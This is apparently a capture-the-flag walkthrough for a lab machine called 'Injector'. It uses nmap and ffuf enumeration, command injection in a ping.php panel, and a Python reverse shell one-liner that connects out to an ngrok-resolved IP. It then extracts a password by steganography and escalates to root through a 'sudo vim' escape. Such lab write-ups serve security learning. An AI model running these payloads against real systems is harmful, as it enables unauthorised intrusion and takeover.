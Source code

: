 Enumeration With Nmap

```
# Nmap 7.92 scan initiated Mon Oct 10 03:12:41 2022 as: nmap -sC -sV -T4 -oN quickmap.txt -Pn 35.157.97.32
Warning: 35.157.97.32 giving up on port because retransmission cap hit (6).
Nmap scan report for 35.157.97.32
Host is up (0.15s latency).
Not shown: 953 closed tcp ports (conn-refused), 45 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7d:95:ce:f8:06:3c:9f:cd:3d:24:5d:fa:cd:4d:0e:60 (RSA)
|   256 6a:f4:e8:f3:54:24:e3:34:e5:0a:83:e2:29:75:7b:f2 (ECDSA)
|_  256 f4:5e:7f:0c:2e:41:8a:bc:df:3b:09:cc:e5:28:40:db (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: BY_VECTORS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 10 03:14:00 2022 -- 1 IP address (1 host up) scanned in 78.75 seconds
```

Cool we have http and ssh ports open, let's enumerate port 80 first 

![image](https://user-images.githubusercontent.com/87468669/194824965-d5961658-79eb-41eb-9236-0981c06b80cc.png)

Seems some dumb team left a spoiler😤, let's just ignore them 😤... Let's burst for hidden directories 

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/CyberTalent/Injector]
└─$ ffuf -u "http://35.157.97.32/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .php,.txt,.bak -fs 277

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://35.157.97.32/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php .txt .bak 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 277
________________________________________________

                        [Status: 200, Size: 271, Words: 86, Lines: 15, Duration: 162ms]
index.html              [Status: 200, Size: 271, Words: 86, Lines: 15, Duration: 153ms]
secret                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 153ms]
:: Progress: [18456/18456] :: Job [1/1] :: 233 req/sec :: Duration: [0:01:28] :: Errors: 0 ::

```

great we got a directory /secret, let's check the path

![image](https://user-images.githubusercontent.com/87468669/194825949-f3e339d6-c07b-4405-b310-33642fe611ed.png)

Let's check the page source 

![image](https://user-images.githubusercontent.com/87468669/194826256-9e8e3d87-d849-4f68-997a-ed1c9ee0f562.png)

Got nothing in the source page, let's burst for hidden directories 

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/CyberTalent/Injector]
└─$ ffuf -u "http://35.157.97.32/secret/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .php,.txt,.bak -fs 277

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://35.157.97.32/secret/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php .txt .bak 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 277
________________________________________________

                        [Status: 200, Size: 445, Words: 85, Lines: 20, Duration: 4897ms]
company                 [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 144ms]
index.html              [Status: 200, Size: 445, Words: 85, Lines: 20, Duration: 149ms]
robots.txt              [Status: 200, Size: 25, Words: 3, Lines: 3, Duration: 146ms]
robots.txt              [Status: 200, Size: 25, Words: 3, Lines: 3, Duration: 154ms]
root                    [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 155ms]
test                    [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 150ms]
tools                   [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 161ms]
:: Progress: [18456/18456] :: Job [1/1] :: 258 req/sec :: Duration: [0:01:16] :: Errors: 0 ::

```

checked out the directories they were all TROLL except tools, so let's check the path /tools

![image](https://user-images.githubusercontent.com/87468669/194827888-659301ab-1a4e-49c0-9f8f-3acd6167dd23.png)

got some files... there should be interesting let's check out ping.php file 

![image](https://user-images.githubusercontent.com/87468669/194828117-b613f1fe-a9f3-4989-9ce8-57b77cc41e21.png)

nice we have a ping panel,let's add an IP address to it and see what it those 

![image](https://user-images.githubusercontent.com/87468669/194828323-67ca3397-2b0c-4d47-9e80-6e8c46acc0d1.png)

great we can ping an IP address, why don't we try out command injection into the panel 

![image](https://user-images.githubusercontent.com/87468669/194828798-1c9ba065-635c-4543-b103-1980d9d46105.png)

Sweeeet we got command injection let's create a reverse shell using ngrok 

![image](https://user-images.githubusercontent.com/87468669/194829063-29e3d785-dce7-407d-896e-e3e9da1e00cd.png)

ping our ngrok address to get an IP address 

```
┌──(n16hth4wk㉿n16hthawk-sec)-[~/Documents/CyberTalent/Injector]
└─$ ping -c 2 2.tcp.eu.ngrok.io
PING 2.tcp.eu.ngrok.io (18.157.68.73) 56(84) bytes of data.
64 bytes from 18.157.68.73 (18.157.68.73): icmp_seq=1 ttl=234 time=139 ms
64 bytes from 18.157.68.73 (18.157.68.73): icmp_seq=2 ttl=234 time=135 ms

--- 2.tcp.eu.ngrok.io ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 135.051/137.054/139.058/2.003 ms

```

Ncat listener ready

![image](https://user-images.githubusercontent.com/87468669/194829450-62a960ae-4987-4eab-b2bd-c87f6f0cc1b6.png)

Reverse Shell payload ready

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("18.157.68.73",13705));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![image](https://user-images.githubusercontent.com/87468669/194829773-776b1594-a983-479c-b236-b4feb75bcc6b.png)

Checking our ncat listener and we got shell

![image](https://user-images.githubusercontent.com/87468669/194829914-90bd5c88-9d0a-4d01-82d4-785d222a61ae.png)

let’s stabilize the shell.

![image](https://user-images.githubusercontent.com/87468669/194830176-509e17b2-4afb-4d4c-b51c-c81105c4c628.png)

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo;fg
export TERM=xterm
```

We got a stable shell, let's escalate privs. checking the /var/www directory, saw a sus image 🤔 🤔.

![image](https://user-images.githubusercontent.com/87468669/194831068-eb178a1a-83d6-4255-9f6c-9f4776c2ae7b.png)

let's try download the image into our attacker machine... In the target machine start a python http server and download the image into the attacker with wget.

![image](https://user-images.githubusercontent.com/87468669/194831540-b414615f-17f6-411d-bd45-bb961f7bebee.png)

let's download the file.

![image](https://user-images.githubusercontent.com/87468669/194831840-557d0e53-1686-45f2-81a5-53b2ac83d265.png)

now we have downloaded the image let's use steghide to extract the content of the image.

![image](https://user-images.githubusercontent.com/87468669/194832121-306c6ee0-98fd-4d31-bca0-96d5fbeaa99f.png)

nice we got a password, let's go back and check for the users available on the target by just doing `cat /etc/passwd`

![image](https://user-images.githubusercontent.com/87468669/194833518-ba648ac3-1c16-4de1-91ab-3aeed703673f.png)

now we got a user alex, let's try su with username: alex and password:D0n41dTrump

![image](https://user-images.githubusercontent.com/87468669/194834208-ef8b8dc2-d495-433c-a61a-eefa56e537ad.png)

We are in as user alex, let's escalat privilege to root, by just running `sudo -l`

![image](https://user-images.githubusercontent.com/87468669/194834611-5f3a4897-880c-4409-a18f-b1dfdc560d02.png)

```
alex@ip-172-31-29-253:/home$ sudo -l
Matching Defaults entries for alex on ip-172-31-29-253:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ip-172-31-29-253:
    (ALL) NOPASSWD: /usr/bin/vim
alex@ip-172-31-29-253:/home$ 
alex@ip-172-31-29-253:/home$ 
```

checking gtfobins for abusing vuln binary for /usr/bin/vim

![image](https://user-images.githubusercontent.com/87468669/194834955-768dfba8-0d2e-4143-bb76-1b0c5afa86b4.png)

using the payload `sudo vim -c ':!/bin/sh'` got us root

![image](https://user-images.githubusercontent.com/87468669/194835604-eb24a97b-27f9-4699-87c1-842044905d0b.png)

we are root!! Hope you had fun😅
